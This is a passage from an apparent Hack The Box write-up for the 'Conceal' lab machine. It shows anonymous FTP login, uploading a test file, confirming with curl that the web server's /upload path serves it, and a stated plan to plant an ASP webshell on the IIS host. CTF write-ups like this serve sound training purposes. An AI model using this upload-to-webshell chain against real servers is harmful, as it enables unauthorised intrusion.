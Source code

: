 ```
/upload (Status: 301)
```
We found an interesting directory `/upload`.

### FTP
FTP has anonymous login enabled.After logging in we are into an empty directory. let's put some files and test whether we can upload files to that directory.
```
echo pwned > test.html

ftp 10.10.10.116

Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:mah1ndra): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> put test.html
local: test.html remote: test.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38268 bytes sent in 0.01 secs (3.0339 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
04-16-20  07:59AM                38268 test.html
226 Transfer complete.
```
We're able to successfully upload our files to ftp directory. Let's navigate to `/upload` endpoint on port `80` to see whether is it linked to `FTP`.

![](/assets/images/htb-writeup-conceal/upload.png)

To verify it we'll do `curl` to the endpoint to look at the output of `test.html`.
```
curl http://10.10.10.116/upload/test.html
pwned
```
So, We've verfied that we can upload and execute files on the server. We'll drop an `asp` webshell since its an `IIS` server.
